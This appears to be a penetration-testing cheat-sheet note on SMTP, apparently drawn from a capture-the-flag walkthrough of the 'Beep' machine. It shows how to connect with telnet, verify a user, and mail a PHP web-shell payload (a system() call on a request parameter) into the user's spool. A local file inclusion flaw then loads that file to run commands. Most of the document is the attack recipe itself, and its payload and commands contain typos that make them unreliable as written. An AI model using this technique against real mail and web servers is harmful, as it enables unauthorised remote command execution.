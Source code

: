 # 25\_SMTP

## Background

* Requirement to exploit this service is to have an associated web application on the same box that is vulnerable to an LFI that displays mail from users in the web application.

## Exploit \(ippsec:Beep\)

1. Access the SMTP server.

   ```text
   telnet [IP] 25
   ```

2. Confirm that an assumed user is on the box.  This is the user we'll send an email to to exploit the LFI in the web application.

   ```text
   VRF [user]@localhost
   ```

3. Create a new mail to the confirmed user on the box.

   ```text
   Mail from:email@doesn'tmatter.com 
   Rcpt to: [user]@localhost 
   Data 
   Subject: Doesn't Matter 
   <? php echo system($REQUEST['neogeo']); ?>
   ```

4. Go to the web application and abuse the LFI vulnerability to navigate to the file location where our mail was sent and stored to execute the PHP script.

   ```text
   .../var/mail/[user]
   ```

5. If we're able to navigate here with our LFI, then we have command execution through the 'neogeo' variable.

   ```text
   .../var/mail/[user]&neogeo=[command]
   ```

